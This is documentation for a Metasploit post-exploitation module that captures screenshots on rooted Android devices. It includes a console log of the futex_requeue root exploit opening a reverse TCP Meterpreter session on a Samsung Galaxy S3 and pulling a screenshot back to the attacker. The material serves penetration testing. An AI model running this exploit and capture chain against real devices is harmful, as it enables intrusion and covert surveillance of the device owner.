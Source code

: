 ## Description

  This module takes a screen capture with the Android built-in application to live off the land.
  `shell` or `root` access is required.

## Verification Steps

  1. Start msfconsole
  2. Get `shell` or `root` access on an Android device
  3. Do: ```use post/android/capture/screen```
  4. Do: ```set session [session]```
  5. Do: ```run```
  6. You should get a screen capture saved to your device.

## Options

  **EXE_PATH**

  Path to the `screencap` executable on android device. Default is `/system/bin/screencap`.

  **TMP_PATH**

  Path to temp directory on android device to save the screenshot to temporarily. Default is `/data/local/tmp/`.

## Scenarios

### Samsung Galaxy S3 Verizon (SCH-I535 w/ android 4.4.2, kernel 3.4.0)

Utilizing futex_requeue to get root access.

  ```
msf5 exploit(android/local/futex_requeue) > run

[*] Started reverse TCP handler on 111.111.1.111:4444
[*] Using target: New Samsung
[*] Loading exploit library /data/data/com.metasploit.stage/files/cbvzt
[*] Loaded library /data/data/com.metasploit.stage/files/cbvzt, deleting
[*] Waiting 300 seconds for payload
[*] Sending stage (904600 bytes) to 222.222.2.222
[*] Meterpreter session 4 opened (111.111.1.111:4444 -> 222.222.2.222:58577) at 2019-10-22 16:04:31 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > background
[*] Backgrounding session 4...
msf5 exploit(android/local/futex_requeue) > use post/android/capture/screen
msf5 post(android/capture/screen) > set session 4
session => 4
msf5 post(android/capture/screen) > run

[!] SESSION may not be compatible with this module.
[+] Downloading screenshot...
[+] Screenshot saved at /root/.msf4/loot/20191022161242_default_222.222.2.222_screen_capture.s_496457.png
[*] Post module execution completed
  ```

![20191022161242_default_192 168 2 14_screen_capture s_496457](https://user-images.githubusercontent.com/752491/67612706-d433ae80-f772-11e9-8344-30020515299e.png)

